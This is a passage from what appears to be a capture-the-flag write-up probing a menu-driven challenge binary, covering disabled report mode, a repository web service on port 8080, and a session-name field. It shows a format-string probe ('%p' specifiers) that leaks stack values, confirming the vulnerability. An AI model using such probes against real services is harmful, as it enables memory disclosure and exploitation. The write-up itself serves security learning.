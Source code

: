 Let's try the other options:

```
ENTER COMMAND: 1
SELECTED: 1
REPORT MODE IS DISABLED IN THIS BUILD
```

Looks like report mode is currently disabled. We could try to turn the report on, but how?

### And now for something completely different

```
ENTER COMMAND: 2
SELECTED: 2

CODE REPOSITORY IS ALREADY ENABLED
```

Turning on the code repo enabled a web service on port 8080, which also has a `/repo` directory containing the binaries used during this step:

![Web service]()

Spending a little time with the binaries was interesting to see how they worked, but ultimately, nothing useful came from it. I'm not sure if this was a red herring or if there was another vulnerability here.

### Back to your normal programming

The last functionality that we haven't looked at yet is the `Update Session Name` function:

```
ENTER COMMAND: 3
SELECTED: 3
ENTER NEW SESSION NAME: thebarbershopper 
--------------------------------------------------------------
SESSION: thebarbershopper

  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------
```

Interesting, can we replicate the string format vulnerability of the access code with the session name?

```
ENTER COMMAND: 3
SELECTED: 3
ENTER NEW SESSION NAME: %p.%p.%p.%p.%p.
--------------------------------------------------------------
SESSION: 0xbfcf89cc.0x104.0x252e7025.0x70252e70.0x2e70252e.

  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------
```
